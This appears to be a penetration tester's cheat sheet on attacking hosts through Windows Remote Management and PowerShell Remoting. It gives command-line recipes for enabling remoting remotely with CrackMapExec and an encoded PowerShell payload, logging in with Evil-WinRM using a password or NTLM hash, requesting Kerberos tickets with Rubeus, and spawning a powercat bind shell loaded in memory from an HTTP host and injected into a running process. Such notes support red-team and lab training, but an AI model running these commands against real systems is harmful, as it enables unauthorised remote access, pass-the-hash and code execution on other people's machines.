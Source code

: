 ```yaml
---
description: Windows Remote Management / PowerShell Remoting
---
```


# WinRM / PSRemoting

* [https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/](https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/)
* [https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/](https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons)
* [https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm)




## Enable WinRM

Using PowerShell (takes ~1m to be applied):

```
PS > Enable-PSRemoting -Force
PS > Set-Item wsman:\localhost\client\trustedhosts *
```

Remotely with CME:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' -x 'powershell -enc RQBuAGEAYgBsAGUALQBQAFMAUgBlAG0AbwB0AGkAbgBnACAALQBGAG8AcgBjAGUAOwBTAGUAdAAtAEkAdABlAG0AIAB3AHMAbQBhAG4AOgBcAGwAbwBjAGEAbABoAG8AcwB0AFwAYwBsAGkAZQBuAHQAXAB0AHIAdQBzAHQAZQBkAGgAbwBzAHQAcwAgACoACgA=' --no-output
```




## From Windows

* [https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm](https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm)

```
PS > winrm get winrm/config
PS > winrm set winrm/config/client '@{TrustedHosts="*"}'
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred
PS > Enter-PSSession -Session $sess
PS > Copy-Item .\file.txt -Destination "C:\users\administrator\music\" -ToSession $sess
```




## From Linux



### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Basic syntax:

```
$ evil-winrm -u '[MEGACORP\]snovvcrash' -p 'Passw0rd!' -i 10.10.13.37 -s `pwd` -e `pwd`
$ evil-winrm -u '[MEGACORP\]snovvcrash' -H fc525c9683e8fe067095ba2ddc971889 -i 10.10.13.37 -s `pwd` -e `pwd`
```

{% hint style="info" %}
Always use full username when authenticating as a domain user, because if there're 2 users sharing the same name (a local user and a domain user), say `WORKGROUP\Administrator` and `MEGACORP\Administrator`, and you're trying to authenticate as a domain admin without providing the domain prefix, authentication will fail.
{% endhint %}

Execute a .NET binary:

```
*Evil-WinRM* PS > Invoke-Binary Rubeus.exe "asktgt, /domain:megacorp.local, /user:snovvcrash, /rc4:fc525c9683e8fe067095ba2ddc971889, /nowrap"
```

Spawn interactive bind shell with [powercat.ps1](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and [Invoke-PSInject.ps1](https://github.com/EmpireProject/PSInject/blob/master/Invoke-PSInject.ps1):

```
$ sed -i s/powercat/pwcat/g pwcat.ps1
$ echo 'powercat -l -p 1337 -e cmd.exe' >> pwcat.ps1
$ echo 'IEX(New-Object Net.WebClient).DownloadString(''http://10.10.13.37/pwcat.ps1'')' | iconv -t UTF-16LE | base64 -w0
*Evil-WinRM* PS > Get-Process
*Evil-WinRM* PS > Invoke-PSInject.ps1
*Evil-WinRM* PS > Invoke-PSInject -ProcId <PID> -PoshCode <BASE64_CMD>
$ rlwrap nc 192.168.1.11 1337
```



### pwsh

```
$ pwsh
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred -Authentication Negotiate
PS > Enter-PSSession -Session $sess
```
